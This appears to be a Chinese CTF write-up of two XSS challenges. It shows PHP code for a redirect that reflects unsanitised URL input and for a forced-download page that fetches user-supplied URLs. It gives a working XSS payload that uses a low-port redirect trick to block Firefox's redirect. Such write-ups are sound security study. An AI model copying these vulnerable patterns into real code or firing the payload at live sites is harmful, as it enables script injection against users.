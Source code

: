 
# 05跳转 #

```
<?php
header("X-XSS-Protection: 0");
$url=str_replace(urldecode(""),"",$_GET["url"]);
$url=str_replace(urldecode("%0d"),"",$url);
$url=str_replace(urldecode("%0a"),"",$url);
header("Location: ".$url);
?>
<html>
<head>
<meta charset="utf-8">
</head>
<body>
<?php echo "<a href='".$url."'>如果跳转失败请点我</a>";?>
</body>
</html>
```

题目当时没做出来，想了一些办法都不行，主要就是要想办法阻止浏览器的跳转。

后来看到大部分人的解决办法都是通过跳一个小于80端口的地址，Firefox这里就不会跳转。

exp
```
http://xianzhi.aliyun.com/xss5.php?url=http://baidu.com:0/'><img src=1 onerror=alert(document.domain)><a>
```

# 06 强制下载 #

```
<?php
header("X-XSS-Protection: 0");
header('Content-Disposition: attachment; filename="'.$_GET["filename"].'"');

if(substr($_GET["url"],0,4) ==="http" && substr($_GET["url"],0,8)<>"http://0" && substr($_GET["url"],0,8)<>"http://1" && substr($_GET["url"],0,8)<>"http://l" && strpos($_GET["url"], '@') === false)
{
$opts = array('http' =>
    array(
        'method' => 'GET',
        'max_redirects' => '0',
        'ignore_errors' => '1'
    )
);
$context = stream_context_create($opts);
$url=str_replace("..","",$_GET["url"]);
$stream = fopen($url, 'r', false, $context);
echo stream_get_contents($stream);
}
else
{
echo "Bad URL!";
}
?>
```
